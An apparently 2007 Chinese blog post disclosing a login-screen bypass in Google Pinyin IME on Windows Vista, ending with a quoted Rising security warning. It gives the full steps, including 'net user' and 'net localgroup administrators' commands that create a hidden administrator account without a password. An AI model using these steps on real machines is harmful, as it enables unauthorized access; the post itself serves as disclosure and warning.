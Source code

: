 # 谷歌输入法有漏洞啦！VISTA系统已测试 

> 2007-09-23

<div class="pcs-article-content_ptkaiapt4bxy_baiduscarticle" id="detailArticleContent_ptkaiapt4bxy_baiduscarticle">
 <p>
  我发现了一个漏洞
 </p>
 <img class="blogimg" small="0" src="images/a896dfb046af3038749802cd9eba0469.jpg"/>
 <p>
  谷歌的，声明我并不赞同谷歌的任何观点，谷歌的
  <strong>
   词库
  </strong>
  完全抄袭无创意
 </p>
 <p>
  加入你远程连接一个vista用户并且装有谷歌的话，并且不知道那个机器的密码
 </p>
 <p>
  那么你就可以完全自如的创建一个用户
 </p>
 <p>
  这个漏洞在windows2000内也有过
 </p>
 <p>
  在登陆出口中调出谷歌输入法
 </p>
 <p>
  选择帮助.....
 </p>
 <p>
  然后就打开了IE了，你就利用地址栏写入：C:/WINDOWS/SYSTEM32/CMD.EXE
 </p>
 <p>
  打开命令指示符
 </p>
 <p>
  输入命令：net user yf     123456 /add
 </p>
 <p>
  这样就建立了一个用户名为yf密码为123456的用户
 </p>
 <p>
  但是还不是管理员，输入 net localgroup administrators yf /add
 </p>
 <p>
  这样大功告成！！！我已经试验过了，成功！！！
 </p>
 <p>
  所以装vista的用户千万不要装google
 </p>
 <p>
  <strong>
   <u>
    后来，我网上一查果然有这个和我说的一模一样的漏洞
   </u>
  </strong>
 </p>
 <p>
  <strong>
   <u>
    On Friday, Chinese security company Rising Co. said Google's Pinyin Input Method Editor (IME) presented a serious security threat to Microsoft Windows Vista users. The company warned users not to download and install the software, which lets users type Chinese characters by entering their Pinyin romanization equivalents, saying hackers could exploit a flaw to take control of a user's computers.
    <br/>
    (星期五，中国信息安全公司瑞星说，谷歌（Goolge）拼音输入法出现一个安全漏洞，可能对微软Windows Vsita用户造成损害。该公司警告用户，不要去下载并安装此软件。这使中国用户进入罗马字符模式输入中文时，黑客将利用一个瑕疵控制用户电脑。)
   </u>
  </strong>
 </p>
 <p>
  <strong>
   <u>
    Rising said Microsoft also bears responsibility for the vulnerability, noting that software released by other companies could recreate the same vulnerability.
    <br/>
    （瑞星说微软也应为此漏洞负责，看来由其它厂商发布的输入法软件也可能导致同一漏洞。）
   </u>
  </strong>
 </p>
</div>


